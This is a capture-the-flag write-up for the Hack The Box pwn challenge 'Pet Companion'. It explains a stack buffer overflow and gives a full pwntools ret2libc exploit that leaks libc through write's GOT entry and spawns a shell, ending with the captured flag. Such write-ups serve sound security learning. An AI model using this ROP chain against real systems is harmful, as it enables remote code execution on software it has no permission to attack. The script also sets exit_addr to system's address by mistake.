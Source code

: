# Pet Companion

Embark on a journey through this expansive reality, where survival hinges on battling foes. In your quest, a loyal companion is essential. Dogs, mutated and implanted with chips, become your customizable allies. Tailor your pet's demeanor—whether happy, angry, sad, or funny—to enhance your bond on this perilous adventure.

## Writeup

This is the main function:

```c
undefined8 main(void)

{
  undefined8 buffer;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  setup();
  buffer = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  write(1,"\n[!] Set your pet companion\'s current status: ",0x2e);
  read(0,&buffer,256);
  write(1,"\n[*] Configuring...\n\n",0x15);
  return 0;
}
```

The buffer is of 8*8 dimension plus the **saved ebp** that is 8 bytes.

We need to **leak** the address of the **write** function.

To do so, need to use the **plt** and the **got** address, but we need some gadget to call the function.

The binary only have **pop rdi** and **pop rsi**:

```
0x0000000000400743 : pop rdi ; ret                        
0x0000000000400741 : pop rsi ; pop r15 ; ret  
```

So we don't use directly the third argument, need to use the value that is stored on **rdx** register for the size of buffer.

The first payload is used to leak the **write** function address:

```
b'A' * offset
pop_rdi
0x01    # stdout
pop_rsi_pop_r15
write_got
0x01  # junk for r15
write_plt
main    # call again main
```

Now we have the address of **write** function. Use it to bypass **ASLR** and send the second payload to pwn the binary:

```
b'A' * offset,
pop_rdi
bin_sh
system_addr
exit_addr
```

The final payload will be:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 94.237.63.46 --port 42734 pet_companion
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'pet_companion')
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
if args['LOCAL']:
    libc = ELF('./glibc/libc.so.6', checksec=False) # Can be found via $ ldd exe
else:
    libc = ELF('./glibc/libc.so.6', checksec=False)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or '94.237.63.46'
port = int(args.PORT or 42734)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# RUNPATH:  b'./glibc/'

io = start()

buffer_dim = 8*8
saved_ebp_dim = 8

offset = buffer_dim + saved_ebp_dim

main = exe.symbols['main']
write_plt = exe.plt['write']
write_got = exe.got['write']

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_pop_r15 = rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

payload = [
    b'A' * offset,
    p64(pop_rdi),
    p64(0x01),
    p64(pop_rsi_pop_r15),
    p64(write_got),
    p64(0x01),  # junk for r15
    p64(write_plt),
    p64(main)
]

payload = b''.join(payload)

io.sendlineafter(b':', payload)

# Read the write address
io.recvuntil(b'Configuring...\n\n')
write_address = u64(io.read(8))

io.info(f'Write address: {hex(write_address)}')

libc.address = write_address - libc.symbols['write']

bin_sh = next(libc.search(b"/bin/sh\x00"))
system_addr = libc.symbols['system']
exit_addr = libc.symbols['system']

payload = [
    b'A' * offset,
    p64(pop_rdi),
    p64(bin_sh),
    p64(system_addr),
    p64(exit_addr)
]

payload = b''.join(payload)

io.sendlineafter(b':', payload)

io.interactive()
```

The flag is:

```bash
$ id
uid=100(ctf) gid=101(ctf) groups=101(ctf)
$ ls
core
flag.txt
glibc
pet_companion
$ cat flag.txt
HTB{c0nf1gur3_w3r_d0g}
```